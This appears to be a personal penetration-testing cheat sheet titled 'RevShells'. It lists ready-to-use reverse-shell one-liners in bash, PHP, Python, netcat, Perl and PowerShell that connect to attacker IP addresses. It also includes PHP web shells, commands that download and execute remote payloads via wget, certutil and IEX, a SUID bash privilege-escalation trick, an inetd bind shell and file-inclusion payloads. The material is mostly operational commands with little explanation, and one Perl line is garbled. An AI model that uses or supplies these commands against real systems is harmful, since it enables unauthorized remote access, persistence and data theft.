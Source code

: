 ## RevShells

#### BASH
```bash
bash -i >& /dev/tcp/192.168.45.178/22 0>&1

echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/pwned\nchmod 4777 /tmp/pwned' >> full-checkup.sh
chmod +x full-checkup.sh
/tmp/pwned -p
```
#### PHP

```bash
php -r '$sock=fsockopen("192.168.45.178", 60001);exec("/bin/sh -i <&3 >&3 2>&3");'

cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
python3 -m http.server
nc -nlvp 443
<?php system("wget http://192.168.45.178/shell.php -O /tmp/shell.php;php /tmp/shell.php");?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

 &cmd=whoami or ?cmd=whoami
<?php shell_exec($_GET["cmd"]);?>
<?php system($_GET["cmd"]);?>
<?php echo passthru($_GET['cmd']); ?>
<?php echo exec($_POST['cmd']); ?>
<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

echo '<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>' > shell.php
shell.php&cmd=
```

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",22));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
nc -nlvp 22
or

192.168.49.140

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.163",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.163 80 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 80 >/tmp/f

busybox nc $ip 5000 -e /bin/bash

certutil.exe -urlcache -split -f http://192.168.45.195:443/nc.exe C:\Windows\Tasks\nc.exe & C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.195 80
```

#### Perl

```bash
perl -e 'use Socket:$i="192.168.45.163";$0=443;socket(S,PF INET,SOCK STREAM, getprotobyname("tcp")); if(connect (S, sockaddr_in($p,inet_aton ($i)))) {open(STDIN, ">&S") ; open (STDOUT, ">&S") ;open (STDERR, ">&S") ;exec("/bin/sh -i"T;};'
```

#### CMD

```bash
'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.178:8000/rev.ps1") | powershell 
-noprofile'
````

General:

- “Curl ip/reverse.sh | bash” not a bad idea.
- wget'ing to tmp, chmod +x, then bash -c /tmp/pwn.sh

#### PsExec

If you have creds and can't get psexec onto the box, try it locally to get a shell

```bash
proxychains psexec.py USERC:USERCishere@10.11.1.50 cmd.exe
```

#### Bypass Python 2 input()

```bash
__import__('os').system('/bin/bash -p')
```

#### Use ConPty Windows Shell

Make sure to copy raw file whenever copy-pasting from GitHub.

WHENEVER YOU'RE SENDING A POST REQUEST, INCLUDE THE CONTEXT-TYPE HEADER, like 'Content-Type: application/x-www-form-urlencoded'.

```bash
include=echo+WAZZUP%3b
include=/etc/passwd
include=http://10.10.14.8:8000/fake
include=http://10.10.14.8:8000/reverse-shell.php
include=reverse-shell.php
```
When testing for a php reverse shell, you can make a simple php file that says "echo WAZZUP;" and check whether "WAZZUP" is returned in the response.

If that doesn't work, you could have him connect back to us so that we could crack the hash.

```bash
cat conpty.php
system("powershell IEX(IWR http://10.10.14.8:8000/conpty.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.8 80");
```

#### Inet Bind Shell ??

```bash
"echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
nc -nv $ip 31337
```

#### Windows nc.exe

This is a reliable reverse shell from Windows computer. If you can upload a file, try msfvenom payload, and if that doesn't work, upload a nc.exe binary and try 

```bash
.\nc.exe -nv 192.168.XX.XX 445 -e cmd.exe
```

#### Windows

One reliable revshell is the powershell encoded one on revshells.

#### Two-Parter via File Upload Vuln

Upload netcat.exe, then php file that will trigger it.

```php
<?php
system('netcat.exe -vv 192.168.4.178 443 -e cmd.exe');
?>
```